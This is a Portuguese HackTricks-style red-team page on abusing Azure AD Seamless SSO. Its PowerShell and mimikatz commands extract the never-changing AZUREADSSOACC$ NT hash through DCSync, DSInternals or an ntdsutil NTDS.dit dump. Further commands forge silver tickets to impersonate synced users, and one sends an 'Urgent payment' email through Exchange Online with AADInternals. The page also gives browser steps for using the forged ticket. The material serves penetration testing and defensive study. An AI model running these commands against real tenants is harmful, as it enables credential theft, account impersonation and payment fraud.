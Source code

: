 # Az - Logon Único Sem Costura

<details>

<summary><strong>Aprenda hacking AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras maneiras de apoiar o HackTricks:

* Se você quiser ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF** Verifique os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**swag oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-nos** no **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Compartilhe seus truques de hacking enviando PRs para o** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>

## Informações Básicas

[Da documentação:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso) O Logon Único Sem Costura do Azure Active Directory (Azure AD Seamless SSO) **faz login automaticamente nos usuários quando estão em seus dispositivos corporativos** conectados à sua rede corporativa. Quando ativado, **os usuários não precisam digitar suas senhas para fazer login no Azure AD**, e geralmente, nem precisam digitar seus nomes de usuário. Essa funcionalidade oferece aos seus usuários acesso fácil às suas aplicações baseadas em nuvem sem a necessidade de componentes adicionais locais.

<figure><img src="../../../../.gitbook/assets/image (7) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

Basicamente, o Logon Único Sem Costura do Azure AD **faz login nos usuários** quando estão **em um PC associado a um domínio local**.

É suportado tanto por [**PHS (Sincronização de Hash de Senha)**](phs-password-hash-sync.md) quanto por [**PTA (Autenticação de Passagem)**](pta-pass-through-authentication.md).

O SSO de Desktop está usando **Kerberos** para autenticação. Quando configurado, o Azure AD Connect cria uma **conta de computador chamada AZUREADSSOACC`$`** no AD local. A senha da conta `AZUREADSSOACC$` é **enviada em texto simples para o Azure AD** durante a configuração.

Os **tickets Kerberos** são **criptografados** usando o **NTHash (MD4)** da senha e o Azure AD está usando a senha enviada para descriptografar os tickets.

**Azure AD** expõe um **endpoint** (https://autologon.microsoftazuread-sso.com) que aceita **tickets Kerberos**. O navegador da máquina associada ao domínio encaminha os tickets para este endpoint para SSO.

### Local -> nuvem

A **senha** do usuário **`AZUREADSSOACC$` nunca muda**. Portanto, um administrador de domínio poderia comprometer o **hash dessa conta**, e então usá-lo para **criar tickets silver** para se conectar ao Azure com **qualquer usuário local sincronizado**:
```powershell
# Dump hash using mimikatz
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\azureadssoacc$ /domain:domain.local /dc:dc.domain.local"'
mimikatz.exe "lsadump::dcsync /user:AZUREADSSOACC$" exit

# Dump hash using https://github.com/MichaelGrafnetter/DSInternals
Get-ADReplAccount -SamAccountName 'AZUREADSSOACC$' -Domain contoso -Server lon-dc1.contoso.local

# Dump using ntdsutil and DSInternals
## Dump NTDS.dit
ntdsutil "ac i ntds" "ifm” "create full C:\temp" q q
## Extract password
Install-Module DSInternals
Import-Module DSInternals
$key = Get-BootKey -SystemHivePath 'C:\temp\registry\SYSTEM'
(Get-ADDBAccount -SamAccountName 'AZUREADSSOACC$' -DBPath 'C:\temp\Active Directory\ntds.dit' -BootKey $key).NTHash | Format-Hexos
```
Com o hash, agora você pode **gerar tickets de prata**:
```powershell
# Get users and SIDs
Get-AzureADUser | Select UserPrincipalName,OnPremisesSecurityIdentifier

# Create a silver ticket to connect to Azure with mimikatz
Invoke-Mimikatz -Command '"kerberos::golden /user:onpremadmin /sid:S-1-5-21-123456789-1234567890-123456789 /id:1105 /domain:domain.local /rc4:<azureadssoacc hash> /target:aadg.windows.net.nsatc.net /service:HTTP /ptt"'
mimikatz.exe "kerberos::golden /user:elrond /sid:S-1-5-21-2121516926-2695913149-3163778339 /id:1234 /domain:contoso.local /rc4:12349e088b2c13d93833d0ce947676dd /target:aadg.windows.net.nsatc.net /service:HTTP /ptt" exit

# Create silver ticket with AADInternal to access Exchange Online
$kerberos=New-AADIntKerberosTicket -SidString "S-1-5-21-854168551-3279074086-2022502410-1104" -Hash "097AB3CBED7B9DD6FE6C992024BC38F4"
$at=Get-AADIntAccessTokenForEXO -KerberosTicket $kerberos -Domain company.com
## Send email
Send-AADIntOutlookMessage -AccessToken $at -Recipient "someone@company.com" -Subject "Urgent payment" -Message "<h1>Urgent!</h1><br>The following bill should be paid asap."
```
Para utilizar o "silver ticket", os seguintes passos devem ser executados:

1. **Iniciar o Navegador:** O Mozilla Firefox deve ser lançado.
2. **Configurar o Navegador:**
- Acesse **`about:config`**.
- Defina a preferência para [network.negotiate-auth.trusted-uris](https://github.com/mozilla/policy-templates/blob/master/README.md#authentication) para os [valores](https://docs.microsoft.com/en-us/azure/active-directory/connect/active-directory-aadconnect-sso#ensuring-clients-sign-in-automatically) especificados:
- `https://aadg.windows.net.nsatc.net`
- `https://autologon.microsoftazuread-sso.com`
3. **Acessar a Aplicação Web:**
- Visite uma aplicação web integrada ao domínio AAD da organização. Um exemplo comum é [Office 365](https://portal.office.com/).
4. **Processo de Autenticação:**
- Na tela de login, o nome de usuário deve ser inserido, deixando o campo de senha em branco.
- Para prosseguir, pressione TAB ou ENTER.

{% hint style="success" %}
Isso não contorna a MFA se estiver habilitado
{% endhint %}

#### ~~Criando tickets Kerberos para usuários apenas na nuvem~~ <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

Se os administradores do Active Directory tiverem acesso ao Azure AD Connect, eles podem **definir o SID para qualquer usuário na nuvem**. Dessa forma, os **tickets Kerberos** podem ser **criados também para usuários apenas na nuvem**. O único requisito é que o SID seja um [SID](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc778824\(v=ws.10\)) adequado.

{% hint style="danger" %}
Alterar o SID de usuários administradores apenas na nuvem está **bloqueado pela Microsoft** agora.\
Para mais informações, acesse [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
{% endhint %}

### On-prem -> Nuvem via Delegação Constrainda Baseada em Recurso <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

Qualquer pessoa que possa gerenciar contas de computador (`AZUREADSSOACC$`) no contêiner ou Unidade Organizacional em que essa conta está, pode **configurar uma delegação constrainda baseada em recurso sobre a conta e acessá-la**.

<figure><img src="../../../../.gitbook/assets/image (125).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (126).png" alt=""><figcaption></figcaption></figure>

## Referências

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso)
* [https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/](https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [TR19: Estou na sua nuvem, lendo os e-mails de todos - hackeando o Azure AD via Active Directory](https://www.youtube.com/watch?v=JEIR5oGCwdg)
